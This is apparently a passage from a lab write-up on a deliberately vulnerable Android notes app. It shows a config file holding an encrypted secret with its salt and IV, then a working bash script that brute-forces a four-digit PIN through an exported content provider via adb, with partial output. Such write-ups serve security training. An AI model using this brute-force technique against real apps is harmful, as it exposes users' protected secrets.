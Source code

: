 The code accesses the **config.properties** file stored in the application's **assets** folder. If the file is missing or an error occurs during access, the operation fails. However, if the file is found, its data is read.

Let's examine the **config.properties** file inside the **assets** folder:

From: assets/config.properties

```bash
encryptedSecret=bTjBHijMAVQX+CoyFbDPJXRUSHcTyzGaie3OgVqvK5w=
salt=m2UvPXkvte7fygEeMr0WUg==
iv=L15Je6YfY5owgIckR9R3DQ==
iterationCount=10000
```

<br /><br />



**Bruteforce the PIN**

```bash
#!/bin/bash

AUTHORITY="com.mobilehackinglab.securenotes.secretprovider" 
URI="content://${AUTHORITY}/Secret" # The content provider URI

echo "[+] Starting PIN Brute-Force..."

for PIN in $(seq -w 0000 9999); do
    RESULT=$(adb shell content query --uri "$URI" --where "pin=$PIN" 2>/dev/null)
    
    if [[ $RESULT == *"Secret"* ]]; then
        echo "[+] PIN Found: $PIN"
        echo "$RESULT"
        break
    else
        echo "[-] Trying PIN: $PIN"
    fi
done

echo "[+] Brute-force Complete"
```



<br />

<br />

Output:

```bash
[-] Trying PIN: 2559
[-] Trying PIN: 2560
[-] Trying PIN: 2561
[-] Trying PIN: 2562
[-] Trying PIN: 2563
[-] Trying PIN: 2564
[-] Trying PIN: 2565
[-] Trying PIN: 2566
[-] Trying PIN: 2567
[-] Trying PIN: 2568
[-] Trying PIN: 2569
[-] Trying PIN: 2570
[-] Trying PIN: 2571
[-] Trying PIN: 2572
[-] Trying PIN: 2573
[-] Trying PIN: 2574
[-] Trying PIN: 2575
[-] Trying PIN: 2576
```